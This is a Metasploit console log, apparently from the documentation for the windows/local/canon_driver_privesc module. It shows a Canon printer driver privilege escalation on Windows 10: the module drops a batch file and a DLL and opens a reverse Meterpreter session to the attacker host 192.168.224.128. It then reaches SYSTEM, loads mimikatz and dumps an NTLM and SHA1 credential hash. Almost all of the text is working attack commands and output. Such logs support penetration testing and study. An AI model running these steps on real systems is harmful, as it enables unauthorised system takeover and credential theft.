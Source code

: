 ```
[*] Writing DLL file to C:\Users\test\AppData\Local\Temp\CNMurGE.dll
[*] Adding printer SFywU...
[*] Deleting printer SFywU
[*] Exploit completed, but no session was created.
msf exploit(windows/local/canon_driver_privesc) > exploit

[*] Started reverse TCP handler on 192.168.224.128:8877
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Canon language driver directory grants Users full permissions
[*] Dropping batch script to C:\Users\test\AppData\Local\Temp\dsrlKmQ.bat
[*] Writing DLL file to C:\Users\test\AppData\Local\Temp\CNMurGE.dll
[*] Adding printer HRudL...
[*] Sending stage (200262 bytes) to 192.168.224.211
[+] Deleted C:\Users\test\AppData\Local\Temp\dsrlKmQ.bat
[+] Deleted C:\Users\test\AppData\Local\Temp\CNMurGE.dll
[*] Meterpreter session 2 opened (192.168.224.128:8877 -> 192.168.224.211:61310) at 2021-08-09 14:13:12 -0500
[*] Deleting printer HRudL

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-DIK4B96
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeImpersonatePrivilege
SeTcbPrivilege

meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain           NTLM                              SHA1
--------  ------           ----                              ----
test      DESKTOP-DIK4B96  0cb6948805f797bf2a82807973b89537  87f8ed9157125ffc4da9e06a7b8011ad80a53fe1
```